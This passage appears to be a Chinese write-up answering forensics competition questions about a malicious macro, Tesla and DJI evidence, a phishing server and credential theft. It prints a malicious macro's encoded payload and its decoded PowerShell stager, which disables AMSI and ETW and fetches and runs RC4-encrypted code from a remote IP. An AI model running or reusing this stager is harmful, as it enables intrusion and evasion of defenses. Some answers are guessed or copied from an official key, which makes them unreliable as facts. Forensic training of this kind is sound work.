        i = i + "YAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcA"
        i = i + "OwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZA"
        i = i + "BpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0"
        i = i + "AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG"
        i = i + "8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIA"
        i = i + "MABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQB5AEEARA"
        i = i + "BFAEEATwBBAEEAdQBBAEQASQBBAE4AUQBBADEAQQBDADQAQQBN"
        i = i + "AGcAQQAwAEEARABJAEEATABnAEEAeABBAEQARQBBAE4AQQBBAD"
        i = i + "YAQQBEAFEAQQBOAEEAQQAwAEEARABRAEEAJwApACkAKQA7ACQA"
        i = i + "dAA9ACcALwBhAGQAbQBpAG4ALwBnAGUAdAAuAHAAaABwACcAOw"
        i = i + "AkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACcAVQBz"
        i = i + "AGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAYwAuAF"
        i = i + "AAcgBvAHgAeQA9AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcA"
        i = i + "ZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARABlAGYAYQB1AGwAdA"
        i = i + "BXAGUAYgBQAHIAbwB4AHkAOwAkAHcAYwAuAFAAcgBvAHgAeQAu"
        i = i + "AEMAcgBlAGQAZQBuAHQAaQBhAGwAcwAgAD0AIABbAFMAeQBzAH"
        i = i + "QAZQBtAC4ATgBlAHQALgBDAHIAZQBkAGUAbgB0AGkAYQBsAEMA"
        i = i + "YQBjAGgAZQBdADoAOgBEAGUAZgBhAHUAbAB0AE4AZQB0AHcAbw"
        i = i + "ByAGsAQwByAGUAZABlAG4AdABpAGEAbABzADsAJABTAGMAcgBp"
        i = i + "AHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAH"
        i = i + "gAeQA7ACQASwA9AFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4A"
        i = i + "RQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQ"
        i = i + "B0AEIAeQB0AGUAcwAoACcAKwA7AFYAIQB3AEwAKgB5AFMARgBs"
        i = i + "AGgAPQBnAHAANwBLAHYALQBSADQAIwAyAGIANgBfAFkAcwBKAE"
        i = i + "cAMwB+ACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAHIA"
        i = i + "ZwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQ"
        i = i + "B8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABL"
        i = i + "AFsAJABfACUAJABLAC4AQwBvAHUAbgB0AF0AKQAlADIANQA2AD"
        i = i + "sAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQA"
        i = i + "SgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQ"
        i = i + "AoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAk"
        i = i + "AFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsAC"
        i = i + "QAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkA"
        i = i + "XQA7ACQAXwAtAGIAeABvAHIAJABTAFsAKAAkAFMAWwAkAEkAXQ"
        i = i + "ArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAdwBj"
        i = i + "AC4ASABlAGEAZABlAHIAcwAuAEEAZABkACgAIgBDAG8AbwBrAG"
        i = i + "kAZQAiACwAIgB0AHEAcwBrAEgAeQBwAHQAbgBiAEEASwBUAEMA"
        i = i + "PQBjAGUAVABoAEwATAA3AGYAZABuAGsATABxADIAQQBPAGsALw"
        i = i + "BQADcAKwBQADAAWABsAHMAbwA9ACIAKQA7ACQAZABhAHQAYQA9"
        i = i + "ACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAkAH"
        i = i + "MAZQByACsAJAB0ACkAOwAkAGkAdgA9ACQAZABhAHQAYQBbADAA"
        i = i + "LgAuADMAXQA7ACQAZABhAHQAYQA9ACQAZABhAHQAYQBbADQALg"
        i = i + "AuACQAZABhAHQAYQAuAGwAZQBuAGcAdABoAF0AOwAtAGoAbwBp"
        i = i + "AG4AWwBDAGgAYQByAFsAXQBdACgAJgAgACQAUgAgACQAZABhAH"
        i = i + "QAYQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA"
        Set asd = CreateObject("WScript.Shell")
        asd.Run (i)
End Function
```

解析一下这个脚本，执行的是psl命令，解base64得到，从`218.255.242.114`下载数据，并进行RC4加密，密钥为数据前4字节+`+;V!wL*ySFlh=gp7Kv-R4#2b6_YsJG3~`


```powershell
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0);};[System.Net.ServicePointManager]::Expect100Continue=0;$wc=New-Object System.Net.WebClient;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAyADEAOAAuADIANQA1AC4AMgA0ADIALgAxADEANAA6ADQANAA0ADQA')));$t='/admin/get.php';$wc.Headers.Add('User-Agent',$u);$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;$Script:Proxy = $wc.Proxy;$K=[System.Text.Encoding]::ASCII.GetBytes('+;V!wL*ySFlh=gp7Kv-R4#2b6_YsJG3~');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};$wc.Headers.Add("Cookie","tqskHyptnbAKTC=ceThLL7fdnkLq2AOk/P7+P0Xlso=");$data=$wc.DownloadData($ser+$t);$iv=$data[0..3];$data=$data[4..$data.length];-join[Char[]](& $R $data ($IV+$K))|IEX
```

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902888-1296496234.png)

结果为`GOALDOC`

## 18.参考李佩妍的计算机镜像,在2023-09-26 10:00(UTC+8)至2023-09-26 11:00(UTC+8)时间内,李佩妍在李哲图的计算机下载了一个文件,请问文件名是什么?提示:不要输入符号及空白，以大写英文回答。如，ABC.TXT(1分)

李哲图的下载目录，这个时间内就一个文件

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902797-1358854613.png)

结果为`BHBRECORDBYDAVIDXLS`

## 19.参考李佩妍的计算机镜像,在2023-09-26 11:22(UTC+8)时间,李哲图当时所在地方的经纬度是多少?提示:将经纬度合并回答。如22.2846135(Latitude)114.1739116(Longitude)，需回答22.2846135,114.1739116(1分)

在kali里，真的难找，他是在mysql里搞了个任务表，去拉别人的数据

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902861-2102210579.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902754-354172311.png)

结果为`22.280348572601053,114.16910499580993`

## 20.参考陈好计算机的镜像,从目标服务器窃取数据要执行哪一个文件？（包括文件名的扩展名）提示:以大写英文字母回答，如，ABC.TXT(1分)

实际上是根据后面和李哲图pc上的文件反推的，木马word文档同路径下还有个启动server的python文件，那么这里用的大概率也是python，9月18日的时间线里，有多次启动IDLE的记录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902877-393943594.png)

随后打开了如下文件，这必然是有关联的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902844-2056516979.png)

搜索这两个文件名，就可以定位到文件

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902844-643412695.png)

结果为`MAIN.PY`

## 21.参考陈好计算机的镜像,用在执行「从目标服务器窃取数据要执行的文件」的软件是什么？（包括文件扩展名）"提示:以大写英文字母回答，ABC.TXT(1分)

由于前面一直用的`IDLE`，所以执行的软件应该是`IDLE`，而这个程序指向的实际上是`idle.pyw`，会调用`pythonw.exe`来执行

结果为`PTYTHONW.EXE`

## 22.参考陈好计算机的镜像,存储该「从目标服务器窃取数据要执行的文件」的原始路径是什么？提示:以大写英文字母与以下格式填写答案(例如:\USERS\HO328\APPDATA\LOCAL\PROGRAMS\TESTING.TXT)(2分)

从21题可以看出一开始脚本生成的文件是在桌面，而脚本中生成文件的路径是脚本目录，因此原文件也应该在桌面（实际上我从其他几个点都去找了，实在是找不到更具体的，NTFS卷日志看了，仿真看了最近文档，都没有收获）

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902860-2036927195.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902859-1129619396.png)

结果为`\USERS\HO328\DESKTOP\MAIN.PY`

## 23.参考陈好计算机的镜像,执行该「从目标服务器窃取数据要执行的文件」后将创建哪些文件？（包括文件扩展名）(1分)

结果为`extracted_customer_data.txt`、`pair_device_result.txt`

## 24.参考陈好计算机的镜像,目标服务器的IP地址及服务器的端口是多少？提示:将IP地址及服务器的端口合并回答。如123.123.123.123:80。(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902862-1421001840.png)

结果为`59.152.211.13:5000`

## 25.参考陈好计算机的镜像,通过执行"李佩妍在李哲图的计算机下载的文件"成功窃取了以下哪些数据？i)current_ui_customer_descriptionii)emailiii)tokeniv)customer_stage(1分)

看看脚本内容，全都给拿了

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902919-371483041.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902932-1308677659.png)

结果为`i,ii,iii,iv`

## 26.参考陈好计算机的镜像,有多少条客户信息被盗取？(包括首尾项目)提示:请以阿拉伯数字作答(1分)

递归过滤出下载脚本会生成的文件

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902804-1193323963.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902915-1563821520.png)

结果为`1000`

## 27.参考’TeslaCam.e01’,当哨兵模式运作时，共有多少个镜头将会进行记录?(第三方安装的电子狗不计在内)提示:请以阿拉伯数字作答(1分)

根据文件命名来看

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902918-1885753078.png)

结果为`4`

## 28.参考"https://www.tesla.com/support/videos/watch/live-camera",当车主利用手机查阅车辆实时影像时共有多少个镜头正在运作以供查阅?提示:请以阿拉伯数字作答(1分)

结果为`5`

## 29.参考’TeslaCam.e01’,当哨兵模式运作时,系统会自动记录多长时间的影像?(2分)

简单算一下

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902860-373397046.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902881-2123921848.png)

结果为`10分钟`

## *30.参考’TeslaCam.e01’,在2023年10月2日上午11时51分，到底发出了什么事件令哨兵模式被触发?请用小写英文字母与以下格式作答xxx_xxx_xxx_xxx(2分)

这个e01不全，一大片空数据，复制镜像的时候断了不知道，以为是复制完了？？？做数据恢复，大部分也是打不开的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902920-1532428918.png)

## *31.参考’TeslaCam.e01’,男死者李哲图死在9月末，但是其车辆的哨兵模式在2023年10月02日的上午被启动，从SentryClipsFolder内找出有关片段，确认有什么事件引发录制。(3分)

A.有车辆从前方驶过

B.有动物从前方走过

C.有人从前方走过

D.有人从后方走过

E.有车辆从后方驶过

## *32.参考’TeslaCam.e01’,按照SentryClips内'2023-10-02_11-51-40’的活页夹，请找出男死者李哲图私家车当日的停泊位置。提示:以经纬度坐标回答有关答案，答案如Lat:22.2846135,Lon:114.1739116，请用以下格式作答，22.2846135,114.1739116。(3分)

## 33.参考’TeslaCam.e01’,在’event.json’文件,我们发现有一栏显示为"Camera:6"，这是什么意思?提示:请浏览特斯拉有关的网站或讨论区。(3分)

结果为`右边镜头`

## 34.参考’TeslaCam.e01’,有人曾驾驶男死者李哲图的车辆前往香港迪斯尼乐园，期间有车辆从男死者的车辆后方驶走，请找出在"2023-09-30_alerted"照片中有关车牌号码?请以大写英文与以下格式作答,如：AB_123(3分)

看不清，视频找不到，直接上官方答案

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903073-744874280.png)

结果为`JV_820`

## 35.参考’dji.go.v5’,按照WhatsApp聊天记录，得知Chris曾与Peggy在2023年09月07日外出玩无人机。飞行记录"DJIFlightRecord_2023-09-07_[17-33-52]"的文件路径?(1分)

给了文件名，直接过滤

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902940-1809893879.png)

结果为`\media\0\Android\data\dji.go.v5\files\FlightRecord`

## 36.参考’dji.go.v5’,在李哲图的LG手机内2023年9月7日内有多少次飞行记录?提示:请用阿拉伯数字作答(2分)

见上图

结果为`4`

## *37.参考’dji.go.v5’,尝试找出與原点最远的距离，并从日志文件中找出所有有关区域的经纬度坐标。(3分)

A.3,064.3ft

B.3,100.1ft

C.3,201.6ft

D.Lat:22.2855113649764,Lon:114.111954829708

E.Lat:22.2855161086729,Lon:114.111957385297

F.Lat:22.2855211183398,Lon:114.111960153012

从`DJIFlightRecord_2023-09-07_[17-42-32].txt`里找到最远距离是`3067ft`，还是有误差，想必手机上装个大疆就是万无一失了吧

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902986-1646402360.png)

但是呢，导出的csv里是可以看到后面几个经纬度的

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902921-1438658927.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902842-438495525.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902762-1909215562.png)

结果为`ADEF`

## 38.参考’dji.go.v5’,在2023年09月07日,Chirs和Peggy曾经外出玩无人机,并用无人机拍摄一张照片"dji_fly_20230907_172136_63_1694078794485_photo_optimized.jpg",请问拍摄照片时,无人机的高度值是多少?(2分)

照片在手机里，有文件名就过滤

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902968-302760568.png)

结果为`116.781`

## *39.参考’陈好的计算机镜像’,陈好用了云端运算来构建钓鱼网站，这网站的IP地址是多少?提示:以IPV4格式回答，如123.123.123.123(1分)

下载目录下有一个`abcd`，256G，是dd镜像

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902979-2066739087.png)

找不到网卡配置文件。。

## 40.参考’陈好的计算机镜像’,陈好在云端运算建立了linux的系统，请问这系统的使用者ID是什么?提示：请全部用英文小写作答，例子:tommychan(1分)

多方结合

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224903003-1230217128.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902913-756431370.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902939-1443902450.png)

结果为`foradmin`

## 41.参考’陈好的计算机镜像’,在2023年8月25日至2023年9月05日期间，下列哪些IP地址成功登录云端运算?(2分)

登录日志`/var/log/wtmp`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902777-1606030170.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902920-1946353406.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902928-939015411.png)

结果为`203.198.117.194`、`61.92.200.176`、`210.3.89.98`、`61.239.58.8`

## 42.参考'陈好的计算机镜像’,在2023年9月10日至2023年9月16日期间，哪个IP地址透过SSH连接，不断密码攻击陈好所使用的云端计算的linux系统?(只计最高值)提示:以IPV4格式回答(2分)

ssh认证日志，已经杯归档的`/var/log/auth.log.2.gz`，比一下

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902762-1345979075.png)

结果为`170.64.177.67`

## 43.参考’陈好的计算机镜像’,陈好所用的云端运算，所用的linux系统，内有安装Mysql,请问哪个是他的密码?(2分)

历史命令，可以加密进行验证

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902904-1256776016.png)

网站连接配置

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902832-2143616835.png)

结果为`1qaz@WSX3edc`

## 44.参考’Meiya_StaffB_laptop.e01’,陈好所使用的手机中，用了云端运算来构建钓鱼网站，这网站的主题是什么?(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902938-1671641564.png)

结果为`加密货币投资`

## 45.参考’陈好的计算机镜像’,陈好在云端运算上用的Linux系统，请问这个镜像文件的主文件名?提示:请用大写字母与阿拉伯数字作答，并不需要扩展名(1分)

结果为`ABCD`

## 46.参考’陈好的计算机镜像’,陈好构建的钓鱼网站最终偷取了多少位客户的密码?请以阿拉数字作答(3分)

用户目录下有一个`ho328@203.198.117.194`，里面的内容计数一下

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902927-1167302099.png)

结果为`24`

## 47.参考’陈好的计算机镜像’回答以下题目陈好用了"MAMP"的程序在本地主机测试构建的钓鱼网站，请问他测试时用了哪个网络服务器和用了什么通讯端口?(2分)

测试站目录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902915-1191324526.png)

查看apache的配置文件`\MAMP\conf\apache\httpd.conf`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902902-1717001438.png)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902920-1125839376.png)

nginx配置的是上级目录

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902933-179144957.png)

结果为`Apache,通讯端口是8888`

## 48.参考’陈好的计算机镜像’,陈好构建的钓鱼网站，最终成功盗取了几张信用卡的资料?提示:请用阿拉伯数字作答(3分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902913-2134402417.png)

结果为`25`

## 49.参考’陈好的计算机镜像’,陈好所用的云端运算中，内装有MicrosoftAzureLinuxVM代理程序，这个程序的功能包含配置，资源扩展，通信，安全性，诊断数据等等，请问个程序的名字是什么?(1分)

百度就可以，微软的

结果为`waagent`

## 50.参考’陈好的计算机镜像’,陈好所用的云端运算，以下描述是正确的:(2分)

i)订用账户标识符:99b1a232-105e-4852-afds-54a74f75668

ii)虚拟机的计算机名称:Netinvestment

iii)资源组名:Netinvestmentmeiya_group

iv)公钥:AAAAB3NzaC1yc2EAAAADAQABAAABgQDS/GbG00y/3DbUI0Q8MrrsvcGTKOad3hYRgApBWlALq48y9bHHmM3DaxM460cnAfz5aDMfVghyX+sevI7PP0UwhevgVUVJ5NZyc98Yi0XDEcPF9nxQOBp49yzwBpy/KwCbMJxBvLNuEtazw+TU6k6bXn62g42f1ljyWZP3vbMGmYnJUjpTE0uhXTqr8PYDKVZrEQWpB2v53IegCXI4La2rScJNKmAIo9pXvdyJkDda74k1vKPj7zUMCsUbpVN/CwZUAZazARyILbz7GK/PvsRp/jWmyo2gbhxk6SoyvRYT8uDK3ifeHcg89jlM6qXS4tGBu2JH+fY/G6WVUJFBjrU9/yyI+i9g9mr+zq5e4D1fWZ/TpLK3RK5JMFUf/L+qQRLoysY6APHZ+WrmM5dJsLgIC9PUmdM3arQGLM6KHQ0+R03phHaK+lo+5QDyVIktJ4wMMfhFSaR6ozHjCzzh8h0Ka+eV6aken1XVs0wIvHYokweRx3W//+N3ZvF9q7cmNuE=generated-by-azure

主机名`/etc/hostname`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902943-1024143135.png)

资源组`/etc/opt/microsoft/azuremonitoragent/config-cache/configchunks/3565456141484303447.json`，ID为`98b1a343-105e-4972-afba-540b74f75f68`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902940-179939354.png)

公钥`/home/azureuser/.ssh/authorized_keys`

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902985-1114755673.png)

结果为`ii),iii),iv)`

## 51.请参考陈大昆MacBook镜像文件回答以下题目:这台MacBook创建了多少个访客账户？(1分)

[](https://img2023.cnblogs.com/blog/2817142/202311/2817142-20231123224902794-253452046.png)

结果为`0`

